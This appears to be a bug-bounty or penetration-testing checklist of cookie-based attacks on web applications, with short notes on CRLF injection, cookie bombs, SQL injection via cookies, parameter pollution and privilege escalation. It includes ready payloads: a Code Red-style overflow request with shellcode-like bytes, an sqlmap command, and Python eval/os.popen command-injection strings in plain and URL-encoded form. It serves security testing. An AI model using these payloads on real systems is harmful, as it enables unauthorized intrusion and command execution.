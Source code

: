 [ ] sensetive Data Stored in Cookies
```
check if anf pii or other sensitive infromation stored in  cookies this in fromation usually includes : email,sessionID, data of birth ,mobile address ,ssn ,etc.
```

[ ] cookie length violation 
leads to Buffer Overflow : A cookie length which is longer than profiled length can indicate that a buffer overflow attack attempt takes place. In a buffer overflow attack, the attacker will have to send very long strings that will generate the overflow, all of them generating this Violation.

```
GET  /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN

NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531 b%u53ff%u0078%u0000%u00=a
```

[ ] Arbitrary Cookie injection
```
try injecting some arbitrary cookies using attack such as CRLF injection ,
some times it can be used to escalate privilege or if the application malfunction, it can reveal sensitive infromation through stack traces
```

[ ] Mass Assignment
```
similar to the parameter poolution, however in this , attacker tried to inject multiple user ID in same user_id  parameter
```

[ ] Damial of service - cookie Bomb
```
forcing the server to process cookies larger than the resricted cookie size defined by the server may cause danial of service attack 

https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx

After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

References: [Hackerone #105363](https://hackerone.com/reports/105363)

```

[ ] SQL injection
```
How to inject the code in Cookies?
There are many HTTP interceptors and HTTP editors that can intercept the HTTP request before it is sent to the server. Then the tester can introduce his malicious SQL statement in the cookie field.

It’s like a get/post based SQL Injection, except that certain characters can’t be used. For example, ‘**;**‘ and ‘**,**‘ are typically treated as delimiters, so they end the injection if they aren’t URL-encoded.

Cookie : sessionId=xxxbad1fdc’ order by 1# (Normal)_
Cookie : sessionId=xxxbad1fdc’ order by 2# (Error)_

after error 
sqlmap -u "" --cookie="" -p "" --dbs
```

[ ] parameter pollution
```
1. Assume that cookie utilize a parameter called **user_id=** to rerieve some data
2. however , the application is not vulnerability to idor and change **user_id** to victim value dosnt help you 
3.attacker ,add an addition another  **user_id=** parameter value to rhe cookie with vuctim user ID LIke: **user_id=atacker&user_id=victim**
4. Three things can happen here:
- the application may retrieve data of victim data
- the application may retrieve data of victim data and attacker data
- the application is not retrieve data it is not vulnerability
```

[ ] Authentication Bybass (cookie are not avalid)
```
try accessing a protected resource by removing cookies
```

[ ] xss
```
assume that the value of the cookie parameter "name" is reflected in the application
change the "name" value to "xss payload"
```

[ ] Insufficient session management
```
1. session doesnt expire on logout 
2. long session expirey
3. session doesnt expire on password reset /change
4. concurrent session
```

[ ] privilege escalation
- horizontal
```
1.assume that the application uses mult-organization models
2.cookie are used wich organized user can access
3.alter the cookie in order to access some other application
```
- vertical
```
1.assume the cookie are used to determine the role of the user
2.alter the cookie in order to elevate the role of the user
```
- similarly
```
1.try if the flower users cookies can be used to access higher users function 
2.try if the cookie of organization 1 user van be used to access function of organizaion 2
```

[ ] sesion puzzing
```
when an application utilzes the same session variable for multiple purposes , this can abused by an attacker to trick the application and perform the action as an authenticated or privileged user
```



[ ] Exploiting Python Code Injection
this payload in cookie or contenttype or path or parameter

```python
eval(compile('for x in range(1):\n import time\n time.sleep(20)','a','single'))
```

[ ] OS command injection

```python
**eval(compile("""for x in range(1):\\n import os\\n os.popen(r'COMMAND').read()""",'','single'))**
```

```python
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

```python
**__import__('os').popen('COMMAND').read()**
```

[ ] URL encode some characters
```python
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```python
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```python
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```python
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

Example with one expression
```python
__import__('os').popen('COMMAND').read()
```

Example with multiple expressions, separated by commas
```python
str("-"*50),__import__('os').popen('COMMAND').read()
```
[ ] Insecure Deserialization
```
 if cookis are using serialized Objects ,try performing insecure Deserialization Checks.
 portswigger laps
```
[ ] Electronic Code Book                                                                                                                                   
[ ] Pickle Code Execution                                                                                                                                   
[ ] Cipher block chainin                                                                                                                                   
[ ] file inclusion                                                                                                                                         
[ ] IDOr                                                                                                                                                   
[ ] session fixation                                                                                                                                       
[ ] padding oracle attack                                                                                                                                   
[ ] jwt attack                                                                                                                                               


